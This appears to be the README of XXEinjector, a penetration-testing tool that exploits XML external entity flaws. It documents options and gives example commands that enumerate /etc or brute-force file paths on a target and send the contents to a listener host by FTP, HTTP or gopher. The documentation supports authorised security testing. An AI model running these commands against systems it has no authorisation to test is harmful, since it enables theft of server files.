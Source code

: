 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:
--host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)
--path	Mandatory (or --brute) - Path to enumerate. (--path=/etc)
--file	Mandatory - File containing HTTP request. Entity in request file needs to point to file.dtd on XXEinjector HTTP server. Issue --xml to show sample HTTP request. (--file=/tmp/req.txt)
--brute	Mandatory (or --path) - File with paths to bruteforce. (--brute=/tmp/brute.txt)

--oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)
--phpfilter		Use PHP filter to base64 encode target file before sending.

--ssl		Use SSL.
--proxy	Proxy to use. (--proxy=127.0.0.1:8080)
--httpport	Set custom HTTP port. (--httpport=80)
--ftpport	Set custom FTP port. (--ftpport=21)
--gopherport	Set custom gopher port. (--gopherport=70)

--timeout	Timeout for receiving file/directory content. (--timeout=20)
--fast	Skip asking what to enumerate. Prone to false-positives.
--verbose	Show verbose messages.

Example usage:
Enumerating /etc directory using HTTPS protocol with proxy:
ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl --proxy=127.0.0.1:8080
Enumerating /etc directory using HTTP protocol:
ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt
Bruteforcing files:
ruby XXEinjector-github.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt
